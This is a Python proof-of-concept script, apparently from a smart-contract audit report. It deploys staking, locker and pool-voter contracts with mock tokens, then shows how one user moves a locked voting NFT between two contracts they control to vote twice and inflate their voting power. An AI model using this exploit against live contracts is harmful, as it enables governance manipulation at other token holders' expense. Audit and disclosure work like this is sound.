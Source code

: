 ```python

    omnichain   = deploy_with_proxy(OmnichainStaking)
    locker      = deploy_with_proxy(LockerLP)
    pool_voter  = deploy_with_proxy(PoolVoter)
    # Two mock tokens - underlying for Locker and reward for PoolVoter
    ve_token = VeToken.deploy(100*10**18, from_=bob)
    re_token = ReToken.deploy(100*10**18, from_=bob)

    omnichain.init(random, random, locker, from_=owner)
    locker.init(ve_token, omnichain, random, from_=owner)
    pool_voter.init(omnichain, re_token, from_=owner)

    # Deploy two contracts with the ability to receive and send ERC721
    # Both controlled by Bob
    x = X.deploy(locker, omnichain, pool_voter, from_ = bob)
    y = Y.deploy(locker, omnichain, pool_voter, from_ = bob)

    # Random addresse for gauge and asset are OK now
    gauge = default_chain.accounts[2]
    asset = default_chain.accounts[3]
    pool_voter.registerGauge(asset, gauge, from_=owner)

    # ===================================================== #
    # Lock time
    two_weeks = 60*60*24*14
    # Amount
    amount  = 10*10**18
    # Bob approve locker contract
    ve_token.approve(locker, amount, from_=bob)
    # Bob creates lock for X
    locker.createLockFor(amount, two_weeks,x ,False, from_=bob)
    # Read X's token id
    toke_id = locker.tokenOfOwnerByIndex(x,0)
    # Send NFT to omnichain staking
    x.send(omnichain, toke_id, from_=bob)
    print('X transfer --> omnichain')

    # X votes in PoolVoter
    poolVote = [asset]
    weights  = [1]
    print('X vote')
    x.vote(poolVote, weights, from_=bob)
    print(f'    :: pool_voter.usedWeights(x) == {pool_voter.usedWeights(x)}')

    # HERE IS THE PROOF THAT I CAN MOVE NFTS SO I CAN MOVE VOTING POWER SO I CAN MANIPULATE VOTING
    # Just X and Y contracts were created so I can double the voting power
    # but in generel `number of contracts * voting power`
    print(f'    :: Staking balance X: {omnichain.balanceOf(x)}')
    # Unstake from staking
    x.unstakeLP(toke_id, from_=bob)
    print('X unstake from omnichain')
    print(f'    :: Staking balance X : {omnichain.balanceOf(x)}')
    print('X transfer --> Y')
    # Send from X to Y
    x.send(y, toke_id, from_=bob)
    print(f'    :: Staking balance X: {omnichain.balanceOf(x)}')
    print(f'    :: Staking balance Y: {omnichain.balanceOf(y)}')
    print('Y transfer --> omnichain')
    # Send from Y to omnichain
    y.send(omnichain, toke_id, from_=bob)
    # Y votes in PoolVoter
    y.vote(poolVote, weights, from_=bob)
    print('Y vote')
```